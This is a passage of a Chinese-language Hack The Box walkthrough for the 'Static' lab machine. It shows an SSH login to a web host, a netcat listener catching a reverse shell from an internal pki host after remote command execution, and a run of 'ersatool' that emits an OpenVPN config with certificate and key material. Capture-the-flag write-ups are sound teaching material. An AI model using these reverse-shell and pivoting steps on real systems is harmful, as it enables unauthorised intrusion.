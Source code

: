 在目标上运行 pspy64

当 pspy64 正在观察时，我们需要另一个到 pki 盒的会话，以便我们可以与替代工具交互。只需对 base64 和 URL 编码重复上述相同的过程，然后再次使用 web box 上的漏洞触发远程命令执行。我将端口 1338 用于第二个到 pki 盒的连接，因为第一个运行 pspy64 的是端口 1337:

```
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa www-data@10.10.10.246 -p 2222
Last login: Sat Nov  6 21:56:12 2021 from 10.10.15.41

www-data@web:~$ cd /tmp
www-data@web:/tmp$ ./nc -nlvp 1338
listening on [any] 1338 ...
connect to [192.168.254.2] from (UNKNOWN) [192.168.254.3] 50620
bash: cannot set terminal process group (16): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pki:/tmp$
```

现在我们可以使用代用工具:

```
www-data@pki:/tmp$ ersatool
ersatool
# create
create->CN=a
client
dev tun9
proto udp
remote vpn.static.htb 1194
resolv-retry infinite
nobind
user nobody
group nogroup
persist-key
persist-tun

remote-cert-tls server

cipher AES-256-CBC
#auth SHA256
key-direction 1
verb 3
<ca>
-----BEGIN CERTIFICATE-----
MIIDRzCCAi+gAwIBAgIUR+mYrXHJORV4tbg81sQS7RfjYK4wDQYJKoZIhvcNAQEL
BQAwFDESMBAGA1UEAwwJc3RhdGljLWd3MCAXDTIwMDMyMjEwMTYwMVoYDzIxMjAw
<SNIP>
2aafeb626aadb6abc35fa023426c9334
ea5f5af8329f367f112599f3e668bd7a
-----END OpenVPN Static key V1-----
</tls-auth>
create->CN=
# exit
```
